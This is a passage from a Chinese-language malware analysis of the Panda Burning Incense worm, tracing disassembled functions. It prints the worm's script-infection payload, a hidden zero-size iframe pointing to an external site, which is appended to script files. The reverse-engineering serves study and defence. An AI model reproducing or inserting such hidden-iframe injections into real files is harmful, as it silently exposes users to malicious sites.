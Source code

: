 ######  sub_40800C函数 子函数sub_405644函数

这个函数用指针循环 大概可以猜到是获取文件的名字字符串

![]( 熊猫烧香分析/27.png)

###### sub_4094A4 子函数 sub_47ADC函数  595行 . 脚本文件感染 

第二种感染方式相对简单的多 就是在脚本文件末尾追加一段网址:<iframe src=http://www.ac86.cn/66/index.htm width="0" height="0"></iframe> 当用户打开脚本文件时 iframe会隐藏式地开一个网址 由于网址已经废弃 所以我也不知道会发生什么

![]( 熊猫烧香分析/29.png)

至此 第一个函数sub_4047ec分析完毕

#### Sub_40CFB4第二个子函数sub_40C5B0

里面有个TimerFunc函数

 进入TimerFunc函数
